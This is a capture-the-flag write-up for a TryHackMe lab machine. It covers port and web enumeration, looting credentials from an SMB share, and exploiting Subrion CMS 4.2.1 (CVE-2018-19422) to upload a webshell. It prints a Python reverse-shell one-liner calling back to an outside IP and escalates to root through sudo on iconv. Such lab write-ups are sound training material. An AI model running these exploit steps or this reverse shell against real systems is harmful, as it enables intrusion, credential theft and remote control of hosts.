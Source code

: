 #writeups

```
/wordpress            (Status: 301) [Size: 318] [--> http://10.10.185.218/wordpress/]
/test                 (Status: 301) [Size: 313] [--> http://10.10.185.218/test/]
```



--nmap--
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtST3F95eem6k4V02TcUi7/Qtn3WvJGNfqpbE+7EVuN2etoFpihgP5LFK2i/EDbeIAiEPALjtKy3gFMEJ5QDCkglBYt3gUbYv29TQBdx+LZQ8Kjry7W+KCKXhkKJEVnkT5cN6lYZIGAkIAVXacZ/YxWjj+ruSAx07fnNLMkqsMR9VA+8w0L2BsXhzYAwCdWrfRf8CE1UEdJy6WIxRsxIYOk25o9R44KXOWT2F8pP2tFbNcvUMlUY6jGHmXgrIEwDiBHuwd3uG5cVVmxJCCSY6Ygr9Aa12nXmUE5QJE9lisYIPUn9IjbRFb2d2hZE2jQHq3WCGdAls2Bwnn7Rgc7J09
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBClT+wif/EERxNcaeTiny8IrQ5Qn6uEM7QxRlouee7KWHrHXomCB/Bq4gJ95Lx5sRPQJhGOZMLZyQaKPTIaILNQ=
|   256 6b4c23506f36007ca67c1173c1a8600c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDolvqv0mvkrpBMhzpvuXHjJlRv/vpYhMabXxhkBxOwz
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34508/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31900/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 59042/udp): CLEAN (Timeout)
|   Check 4 (port 40583/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-03-19T12:14:46+05:30
| smb2-time: 
|   date: 2023-03-19T06:44:45
|_  start_date: N/A
|_clock-skew: mean: -1h49m52s, deviation: 3h10m29s, median: 6s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

--wordpress--

```

[+] XML-RPC seems to be enabled: http://10.10.185.218/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

```


Trying to check smb listing(*enum4linux*) looking for good stuff like we see smd port are open
```
//10.10.185.218/print$  Mapping: DENIED Listing: N/A Writing: N/A                                                                                 
//10.10.185.218/websvr  Mapping: OK Listing: OK Writing: N/A
```
why not checking if they share have somthing interesting, `smbclient \\\\10.10.185.218\\websvr`, case sensitive,
so look what I found
```
enter.txt    
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```
and this hash for the admin let's see what I'm gonna have, cyberchef with magic formula gave
`Scam2021` so we have `admin:Scam2021` for subrion creds but the wordpress part nothing, so in
the previous text file, in the step 2 they talk about the subrion/panel so, let's just jump right in
to see what's going on? `http://10.10.185.218/subrion/panel/`, yes there is a thing and it's an admin panel
btw we use the creds we got earlier. One thing subrion cms v4.2, I looked for an exploit and I found 
RCE - Arbitrary file upload, a script python I downloaded and executed to have some good results, let's see

```
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.185.218/subrion/panel/
[+] Success!
[+] Got CSRF token: B2OufNw0b70PjPAX1jO3gxqBs2hHwwNor6b00VPz
[+] Trying to log in...

[x] Login failed... Check credentials
```
ok so let me see if I can add the creds `python fileUploadSubrion.py -u http://10.10.185.218/subrion/panel/ -l admin -p Scam2021`
```
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.185.218/subrion/panel/
[+] Success!
[+] Got CSRF token: BP48Hl8WFr7nX3Jk4Se2eDZ2JJEflePb1uIsp5b2
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: rnsqmdhkmdneuqg

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.185.218/subrion/panel/uploads/rnsqmdhkmdneuqg.phar 
``` 
yaoooooooooo I  got the shell then to make more persistence a make a revshell

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.91.36",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


that the content of wp-config.php maybe they he used the same creds for their machine
```
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```
the box have some duration time, so that why you should speedrun a little on what you doing
and with a revshell you have enough time and freedom to make a lot of things before the time is up.

the only things that change in the creds are there are not a user call support on the box, but support
it's a wordpress user, then the username you can get it by seeing the /home

I tried to coneect myself with ssh, I got sucess with the `scamsite` user, and then make a `sudo -l`,
I found `(ALL) NOPASSWD: /usr/bin/iconv`, so GTFobins my friend has smthing to me I supposed, let's see

`sudo -u root iconv -f 8859_1 -t 8859_1 "/root/root.txt"`, and then I found the flag

851b8233a8c09400ec30651bd1529bf1ed02790b



https://medhatfathy.medium.com/tryhackme-tech-supp0rt-1-writeup-f5fe48d671a6
https://defaltlibary.blogspot.com/2022/04/techsupp0rt-1-tryhackme.html
